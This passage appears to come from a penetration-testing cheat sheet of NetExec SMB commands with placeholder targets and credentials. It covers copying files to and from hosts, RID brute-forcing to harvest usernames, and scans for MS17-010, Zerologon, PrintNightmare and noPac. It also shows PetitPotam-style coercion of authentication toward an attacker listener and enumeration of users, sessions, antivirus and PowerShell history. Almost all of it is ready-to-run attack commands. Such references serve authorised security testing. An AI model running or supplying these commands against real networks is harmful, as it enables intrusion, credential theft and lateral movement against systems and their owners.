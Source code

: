 #### File Handling

```console
$ netexec smb <RHOST> -u '<USERNAME>' -p '<PASSWORD>' --get-file \\PATH\\TO\FOLDER\\<FILE> /PATH/TO/FOLDER/<FILE> 
$ netexec smb <RHOST> -u '<USERNAME>' -p '<PASSWORD>' --put-file /PATH/TO/FILE/<FILE> \\PATH\\TO\FOLDER\\<FILE>
```

#### RID Brute Force

```console
$ netexec smb <RHOST> -u '<USERNAME>' -p '<PASSWORD>' --shares --rid-brute
$ netexec smb <RHOST> -u '<USERNAME>' -p '<PASSWORD>' --shares --rid-brute 100000
$ netexec smb <RHOST> -u '<USERNAME>' -p '<PASSWORD>' --shares --rid-brute | grep 'SidTypeUser' | awk '{print $6}'
$ netexec smb <RHOST> -u '<USERNAME>' -p '<PASSWORD>' --shares --rid-brute | grep 'SidTypeUser' | awk '{print $6}'  | awk -F '\\' '{print $2}'
```

#### Vulnerability Scanning

```console
$ netexec smb <RHOST> -u '' -p '' -M ms17-010
$ netexec smb <RHOST> -u '' -p '' -M smbghost
$ netexec smb <RHOST> -u '' -p '' -M zerologon
$ netexec smb <RHOST> -u '' -p '' -M printnightmare
$ netexec smb <RHOST> -u '<USERNAME>' -p '<PASSWORD>' -M nopac
$ netexec smb <RHOST> -u '' -p '' -M coerce_plus
$ netexec smb <RHOST> -u '' -p '' -M coerce_plus -o LISTENER=<LHOST>
$ netexec smb <RHOST> -u '' -p '' -M coerce_plus -o LISTENER=<LHOST> ALWAYS=true
$ netexec smb <RHOST> -u '' -p '' -M coerce_plus -o METHOD=PetitPotam
```

#### System Enumeration

```console
$ netexec smb <RHOST> -u '<USERNAME>' -p '<PASSWORD>' --users
$ netexec smb <RHOST> -u '<USERNAME>' -p '<PASSWORD>' --users-export <FILE>
$ netexec smb <RHOST> -u '<USERNAME>' -p '<PASSWORD>' --groups
$ netexec smb <RHOST> -u '<USERNAME>' -p '<PASSWORD>' --local-group
$ netexec smb <RHOST> -u '<USERNAME>' -p '<PASSWORD>' --pass-pol
$ netexec smb <RHOST> -u '<USERNAME>' -p '<PASSWORD>' --disks
$ netexec smb <RHOST> -u '<USERNAME>' -p '<PASSWORD>' --interfaces
$ netexec smb <RHOST> -u '<USERNAME>' -p '<PASSWORD>' --smb-sessions
$ netexec smb <RHOST> -u '<USERNAME>' -p '<PASSWORD>' --loggedon-users
$ netexec smb <RHOST> -u '<USERNAME>' -p '<PASSWORD>' -M powershell_history
$ netexec smb <RHOST> -u '<USERNAME>' -p '<PASSWORD>' -M bitlocker
$ netexec smb <RHOST> -u '<USERNAME>' -p '<PASSWORD>' -M enum_av
$ netexec smb <RHOST> -u '<USERNAME>' -p '<PASSWORD>' -M spooler
$ netexec smb <RHOST> -u '<USERNAME>' -p '<PASSWORD>' -M webdav
```

#### Enumerate Hosts with SMB Signing not required
